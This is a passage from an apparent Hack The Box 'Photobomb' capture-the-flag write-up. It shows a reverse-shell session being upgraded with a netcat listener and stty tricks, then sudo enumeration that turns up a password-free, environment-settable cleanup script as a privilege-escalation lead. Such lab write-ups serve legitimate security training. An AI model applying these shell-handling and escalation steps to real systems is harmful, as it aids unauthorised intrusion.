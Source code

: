 Before we continue, we should upgrade the shell a bit.
```bash
wizard@photobomb:~/photobomb$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
<l/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
wizard@photobomb:~/photobomb$ export TERM=xterm-256color  
export TERM=xterm-256color  
wizard@photobomb:~/photobomb$ alias ll='ls -lsaht --color=auto'  
alias ll='ls -lsaht --color=auto'  
wizard@photobomb:~/photobomb$ 
```
Now we have to send it to the background with `CTRL` + `Z` so we can run one command on our machine and we can move back to the victim.
```bash
zsh: suspended  rlwrap nc -lvp 443

┌──(emvee㉿kali)-[~/Documents/HTB/Photobomb]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  rlwrap nc -lvp 443
```
Now we are back in the session on the victim and we only have to run one more command.
```bash
wizard@photobomb:~/photobomb$ stty columns 200 rows 200
stty columns 200 rows 200
stty: 'standard input': Inappropriate ioctl for device
wizard@photobomb:~/photobomb$ 

```

Since we are set, we can start enumerating on the victim and try to gain more privileges.
First we should see if we can run any sudo command as this user.
```bash
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```

It looks like `/opt/cleanup.sh` can be run by the user without any password and set our own environment. We should inspect the file before we try to escalate our privileges.
```bash
wizard@photobomb:~/photobomb$ ll /opt/cleanup.sh
ll /opt/cleanup.sh
4.0K -r-xr-xr-x 1 root root 340 Sep 15  2022 /opt/cleanup.sh

```

We only have read and execute permissions on this file as the user `wizard`. We can read the file to see if we can use anything else.
```bash
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi
```